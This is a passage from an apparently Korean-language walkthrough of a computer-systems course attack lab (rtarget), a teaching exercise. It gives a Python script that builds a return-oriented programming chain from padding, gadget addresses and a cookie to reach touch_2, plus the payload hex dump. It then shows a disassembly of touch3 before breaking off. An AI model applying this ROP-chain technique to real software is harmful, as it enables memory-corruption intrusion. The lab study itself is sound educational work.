 * Buffer 채우기 (0x18 bytes)
* `rax`에 `cookie`를 `pop`하기
* `rax`를 `rdi`로 옮기기
* 이후 `touch_2`의 address로 `ret`하기

최종적으로 필요한 Code는 다음과 같다.

```py
def phase_4():
    TOUCH_2_ADDR = 0x401702

    Ex = b''
    Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')

    Ex += p64(find_gadget_addr("pop rax ; ret"))
    Ex += p64(COOKIE)
    Ex += p64(find_gadget_addr("mov rdi, rax ; ret"))
    Ex += p64(TOUCH_2_ADDR)

    with open("exploit.txt", 'w') as f:
        f.write(byte2sphex(Ex))

    os.system("./hex2raw < exploit.txt | ./rtarget")
```

전달되는 data의 hexadecimal value는 다음과 같다.

```text
4141414141414141	// 0x18 byte padding of buffer
4141414141414141	//
4141414141414141	//
8318400000000000	// Return Address: Gadget Address of `pop rax ; ret`
c233b96e00000000	// Cookie value (to be popped to rax -> moved to rdi)
9718400000000000	// Return Address: Gadget Address of `mov rdi, rax ; ret`
0217400000000000	// Return Address: Address of touch_2
```



## Phase 5

In `touch3` of `rtarget`:

```assembly
gef➤  disas touch3
Dump of assembler code for function touch3:
   0x00000000004017d6 <+0>:     push   rbx
   0x00000000004017d7 <+1>:     mov    rbx,rdi
   0x00000000004017da <+4>:     mov    DWORD PTR [rip+0x203d18],0x3        # 0x6054fc <vlevel>
   0x00000000004017e4 <+14>:    mov    rsi,rdi
   0x00000000004017e7 <+17>:    mov    edi,DWORD PTR [rip+0x203d17]        # 0x605504 <cookie>
   0x00000000004017ed <+23>:    call   0x401758 <hexmatch>
   0x00000000004017f2 <+28>:    test   eax,eax
   0x00000000004017f4 <+30>:    je     0x401814 <touch3+62>
   0x00000000004017f6 <+32>:    mov    rsi,rbx
   0x00000000004017f9 <+35>:    mov    edi,0x402fe0
   0x00000000004017fe <+40>:    mov    eax,0x0
   0x0000000000401803 <+45>:    call   0x400c80 <printf@plt>
   0x0000000000401808 <+50>:    mov    edi,0x3
   0x000000000040180d <+55>:    call   0x401c19 <validate>
   0x0000000000401812 <+60>:    jmp    0x401830 <touch3+90>
   0x0000000000401814 <+62>:    mov    rsi,rbx
   0x0000000000401817 <+65>:    mov    edi,0x403008
   0x000000000040181c <+70>:    mov    eax,0x0
   0x0000000000401821 <+75>:    call   0x400c80 <printf@plt>
   0x0000000000401826 <+80>:    mov    edi,0x3
   0x000000000040182b <+85>:    call   0x401ccb <fail>
```